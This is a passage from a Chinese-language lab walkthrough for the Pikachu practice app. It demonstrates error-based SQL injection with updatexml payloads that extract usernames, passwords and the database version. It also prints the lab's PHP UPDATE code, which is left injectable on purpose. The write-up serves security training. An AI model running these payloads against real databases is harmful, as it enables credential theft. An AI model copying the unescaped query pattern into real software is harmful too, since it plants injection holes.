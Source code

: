 老规矩,改 limit 后的数字

数据 `1' or updatexml(1,concat(0x7e,(select username from users limit 0,1)),0) or'')#`

![image](../../../../assets/img/安全/实验/Misc/pikachu/48.png)

数据 `1' or updatexml(1,concat(0x7e,(select password from users limit 0,1)),0) or'')#`

![image](../../../../assets/img/安全/实验/Misc/pikachu/49.png)

下面测试 update

**服务器端核心代码**
```php
if(isset($_POST['submit'])){
    if($_POST['sex']!=null && $_POST['phonenum']!=null && $_POST['add']!=null && $_POST['email']!=null){
//        $getdata=escape($link, $_POST);

        //未转义,形成注入,sql操作类型为update
        $getdata=$_POST;
        $query="update member set sex='{$getdata['sex']}',phonenum='{$getdata['phonenum']}',address='{$getdata['add']}',email='{$getdata['email']}' where username='{$_SESSION['sqli']['username']}'";
        $result=execute($link, $query);
        if(mysqli_affected_rows($link)==1 || mysqli_affected_rows($link)==0){
            header("location:sqli_mem.php");
        }else {
            $html1.='修改失败,请重试';

        }
    }
}
```

**漏洞利用**

版本 `1'or updatexml(2,concat(0x7e,(version())),0) or'' where username = <注意!!!这里是你的用户名>;#`

例如我的: `1'or updatexml(2,concat(0x7e,(version())),0) or'' where username = 123;#`

![image](../../../../assets/img/安全/实验/Misc/pikachu/50.png)
